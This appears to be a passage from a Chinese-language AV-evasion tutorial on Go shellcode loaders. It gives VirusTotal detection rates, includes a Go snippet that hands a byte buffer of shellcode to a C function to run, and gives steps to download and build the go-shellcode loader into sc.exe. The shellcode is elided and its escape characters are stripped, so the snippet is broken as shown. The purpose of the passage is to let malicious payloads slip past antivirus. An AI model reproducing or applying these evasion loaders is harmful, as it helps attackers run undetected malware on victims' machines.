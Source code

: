 virustotal.com上查杀率为3/71

![04009c8795df83a05a7c5c5958edc9ae](images/2020.05-bypass-07/5.png)

在网上还找到另外一个代码，不过执行和编译老出错，有兴趣的可以试一下，代码如下。
```
package main

import "C"
import "unsafe"

func main() {
    buf := ""
    buf += "xddxc6xd9x74x24xf4x5fx33xc9xb8xb3x5ex2c"
    ...省略...
    buf += "xc9xb1x97x31x47x1ax03x47x1ax83xc7x04xe2"
    // at your call site, you can send the shellcode directly to the C
    // function by converting it to a pointer of the correct type.
    shellcode := []byte(buf)
    C.call((*C.char)(unsafe.Pointer(&shellcode[0])))
}
```
## 1.3 Go加载器

### 1.3.1 go-shellcode加载器(VT查杀率4/69)

需要先下载加载器：`https://github.com/brimstone/go-shellcode`

下载后，进入`go-shellcode\cmd\sc`目录，执行`go build`

生成`sc.exe`
